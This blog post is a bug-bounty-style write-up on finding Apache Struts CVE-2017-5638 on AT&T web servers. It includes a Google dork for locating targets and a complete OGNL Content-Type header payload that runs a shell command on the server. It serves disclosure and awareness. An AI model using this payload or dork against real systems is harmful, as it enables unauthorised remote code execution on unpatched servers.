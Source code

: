 ```yaml
---
layout: post
title: "Remote Code Execution in AT&T"
author: Corben Leo
---
```

I was pentesting AT&T to see if I could find a vulnerability (as one does), around 4-5 days after CVE-2017-5638 was released.   Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 is vulnerable to **Server-Side Template Injection**, which allows attackers to execute commands on any vulnerable server. Basically, the file upload interceptor for these vulnerable versions "attempted to resolve error messages using a potentially dangerous function that evaluates OGNL." It's not actually a vulnerability within the Jakarta request wrapper, but rather in the file upload interceptor. <br><br>
I instantly was curious about this vulnerability and went to see if AT&T ran Struts, so I started off with a simple Google dork: `site:att.com + ext:action` and *A LOT* of results came up! I grabbed a random one:  `https://www.att.com/tobrcontract/tobrinfotc.action`<br><br>
I opened up Burp Suite, intercepted the request and sent it to the Repeater. I added this payload in the content-type header to see if it was vulnerable:
```
Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).! (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='uname -a').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
I sent the request and to my surprise, the command executed!<br><br>
![Code Execution](/images/att-rce.png "RCE")
<br><br>
I was absolutely astounded that after a week of this 0day being released, that such a big company would still be vulnerable WHEN they had a security team and bug bounty program! I also identified a subdomain that was vulnerable.<br> All goes to show that if you are WORKING in information security, it would be smart to pay attention to the community and to the news so you can protect yourself.<br><br>
Regardless, that's how I could've pwned AT&T, which would have affected their hundreds millions of customers (<font color="#E22A3C">~147 million</font> wireless customers in the U.S. and Mexico).
<br><br>
Thanks for reading!<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/sxcurity"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>

